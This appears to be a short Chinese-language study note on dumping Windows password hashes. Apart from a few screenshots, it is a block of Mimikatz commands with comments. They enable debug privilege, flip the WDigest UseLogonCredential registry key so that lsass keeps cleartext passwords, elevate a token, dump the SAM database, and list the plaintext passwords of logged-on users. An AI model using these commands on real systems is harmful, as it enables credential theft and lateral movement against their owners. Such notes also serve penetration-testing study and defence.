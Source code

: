 ## 简介

![image-20240414155214527](WinodwsHash.assets/image-20240414155214527.png)

![image-20240414195950493](WinodwsHash.assets/image-20240414195950493.png)

```bash
log res.txt //将日志信息写入该文件
privilege::debug //修改自己进程的权限提权，windows2012以上禁止明文存储在lsass.exe内存中，因此不能直接获取明文密码
###但是可以利用修改Wdigest注册表要求明文存储在lsass.exe内存中
##开启
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
##关闭
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
###

token::elevate //利用其它进程的权限给自己提权
lsadump::sam  //列出sam
sekurlsa::logonpasswords //列出当前系统中已经登录的（或以前登录过且相关信息还存储在内存中）所有用户的密码及其明文
```

![image-20240414215719402](WinodwsHash.assets/image-20240414215719402.png)